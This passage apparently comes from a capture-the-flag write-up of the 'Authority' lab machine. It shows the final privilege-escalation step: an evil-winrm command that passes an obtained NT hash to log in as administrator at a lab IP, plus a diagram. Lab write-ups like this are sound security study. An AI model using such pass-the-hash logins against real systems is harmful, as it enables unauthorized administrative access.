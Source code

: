 You will then gain a NT hash which you can then pass the second half of into evil-winrm. Finally you gain admin privileges and you find the flag under the desktop directory under administrator.

~~~bash
evil-winrm -u administrator -H 6961f422924da90a6928197429eea4ed -i 10.10.11.222
~~~

Here's a picture to visualize what we did in the privesc:
(this my interpretation of the privesc and maybe inaccurate)

<div class="normal-photo">
  <img src="/assets/img/Authority-privesc.jpeg" alt="connection tab" class="competition-image">
</div>